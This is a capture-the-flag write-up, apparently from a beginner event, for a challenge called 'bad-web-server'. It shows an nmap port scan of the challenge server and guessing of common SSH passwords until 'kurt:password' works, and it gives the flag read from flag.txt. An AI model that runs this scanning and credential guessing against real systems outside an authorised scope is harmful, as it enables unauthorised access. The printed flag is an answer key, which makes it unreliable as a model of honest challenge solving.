

# bad-web-server:
We get a website managed by Kurt at the URL [http://207.154.232.20/](http://207.154.232.20/). When we try to connect to it, we get presented with a small story about the IT manager of some company named kurt and how he is quite bad at securing his servers.

We can try to look around a bit, maybe try some other paths, like `/login`, but we just get a Django debug message telling us the path is not found and conveniantly listing the paths available:



We see here that the only available path is the main `/` index, so nothing more to find on the web server.

In the description of the task, we also see the message:

---
_Note: The whole ip is whithin scope._

---

So maybe another port is listening, somewhere we can login, like SSH? We can run a small nmap scan with:

```
> nmap 207.154.232.20 -T5

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 16:41 CET
Nmap scan report for 207.154.232.20
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.57 seconds
```

`-T5` says that we want to do a quick scan, and don't care about being stealthy.

Here we do indeed see another port open, port 22 which is SSH. We can try to login. We can try a couple of different combinations `root`, or `admin` for the username, but given how often the name `kurt` has popped up in the challenge and description, lets try that first, let us also try some top 10 passwords like `1234`, `toor` and `password`.

We see the combination `kurt:password` works and we are logged in:

```
> ssh-nocache kurt@207.154.232.20
kurt@207.154.232.20's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov 23 15:44:13 UTC 2020

  System load:  0.1                Users logged in:       1
  Usage of /:   13.7% of 24.06GB   IPv4 address for eth0: 207.154.232.20
  Memory usage: 31%                IPv4 address for eth0: 10.19.0.5
  Swap usage:   0%                 IPv4 address for eth1: 10.114.0.2
  Processes:    116

11 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


*** System restart required ***
Last login: Wed Nov 18 18:46:51 2020 from 178.164.35.198
kurt@really-nice-website:~$ ls
flag.txt
kurt@really-nice-website:~$ cat flag.txt 
KID20{y0u-d1d-4-gr34t-j0b}
```

Here we also find a `flag.txt` in the home directory, which also contains the flag `KID20{y0u-d1d-4-gr34t-j0b}`.